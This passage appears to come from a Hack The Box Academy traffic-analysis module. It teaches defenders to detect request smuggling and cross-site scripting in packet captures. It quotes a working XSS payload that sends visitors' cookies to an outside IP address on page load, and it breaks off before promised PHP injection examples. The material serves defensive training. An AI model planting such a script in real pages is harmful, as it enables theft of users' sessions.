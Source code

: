 [CVE-2023-25690](https://github.com/dhmosfunk/CVE-2023-25690-POC)

As such watching for these code 400s can give clear indication to adversarial actions during our traffic analysis efforts. Additionally, we would notice if an attacker is successful with this attack by finding the code `200` (`success`) in response to one of the requests which look like this.

## Cross-Site Scripting (XSS) & Code Injection Detection

**Related PCAP File(s)**:

* `XSS_Simple.pcapng`

***

Suppose we were looking through our HTTP requests and noticed that a good amount of requests were being sent to an internal "server," we did not recognize. This could be a clear indication of cross-site scripting. Let's take the following output for example.

![XSS](https://academy.hackthebox.com/storage/modules/229/1-XSS.png)

We might notice alot of values being sent over, and in real cases this might not be as obvious that these are user's cookies/tokens. Instead, it might even be encoded or encrypted while it is in transit. Essentially speaking, cross-site scripting works through an attacker injecting malicious javascript or script code into one of our web pages through user input. When other users visit our web server their browsers will execute this code. Attackers in many cases will utilize this technique to steal tokens, cookies, session values, and more. If we were to follow one of these requests it would look like the following.

![XSS](https://academy.hackthebox.com/storage/modules/229/2-XSS\_.png)

Getting down to the root of where this code is originating can be somewhat tricky. However, suppose we had a user comment area on our web server. We might notice one of the comments looks like the following.

Code: javascript

```javascript
<script>
  window.addEventListener("load", function() {
    const url = "http://192.168.0.19:5555";
    const params = "cookie=" + encodeURIComponent(document.cookie);
    const request = new XMLHttpRequest();
    request.open("GET", url + "?" + params);
    request.send();
  });
</script>
```

This would be successful cross-site scripting from the attacker, and as such we would want to remove this comment quickly, and even in most cases bring our server down to fix the issue before it persists. We might also notice in some cases, that an attacker might attempt to inject code into these fields like the following two examples.

In order for them to get command and control through PHP.

Code: php
